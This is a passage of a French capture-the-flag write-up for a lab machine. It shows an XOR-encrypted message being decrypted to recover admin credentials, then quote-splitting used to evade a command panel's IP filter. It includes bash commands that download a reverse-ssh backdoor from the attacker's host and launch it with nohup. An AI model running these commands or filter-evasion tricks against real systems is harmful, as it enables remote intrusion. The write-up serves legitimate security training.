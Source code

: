 > Testing secure messaging system notes:  
> 
> \*Using XOR encryption as the algorithm, should be safe as used in RSA.  
> 
> \*Earth has confirmed they have received our sent messages.  
> 
> \*testdata.txt was used to test encryption.  
> 
> \*terra used as username for admin portal.  
> 
> Todo:  
> 
> \*How do we send our monthly keys to Earth securely? Or should we change keys weekly?  
> 
> \*Need to test different key lengths to protect against bruteforce. How long should the key be?  
> 
> \*Need to improve the interface of the messaging interface and the admin panel, it's currently very basic.

En effet si j'applique comme clé le contenu de *testdata.txt* présent sur le site pour le 3ème message j'obtiens en clair le message *earthclimatechangebad4humans* répété en boucle.  

Voyager
-------

*https://earth.local/* semble en tout point semblable à son équivalent non sécurisé pourtant on peut trouver un dossier *admin* à la racine du site.  

Armé des infos précédentes je peux me connecter sur cette zone administrateur avec *terra* / *earthclimatechangebad4humans*.  

L'interface très basique demande de saisir une commande et donne son résultat en output.  

Si on tente de rentrer une IP en revanche on obtient un message *Remote connections are forbidden* à la place.  

Ainsi la commande suivante était bloquée :  

```bash
wget http://192.168.56.1/reverse-sshx64 -O /tmp/reverse-sshx64
```

mais avec quelques actuces simples on peut passer le filtre :  

```bash
wget 'ht''tp://192.''168.''56.''1/reverse-sshx64' -O /tmp/reverse-sshx64
```

On pourrait tout aussi bien passer par un encodage (hexa, base64, etc) voire utiliser une notation différente pour l'adresse IP.  

Une fois la backdoor téléchargée et les permissions modifiées je peux l'exécuter. J'utilise *nohup* pour éviter que le programme crashe quand le script web a terminé son exécution et ferme ses entrées.  

```bash
nohup /tmp/reverse-sshx64 -v -p 2244 '192.''168.56.1' &
```
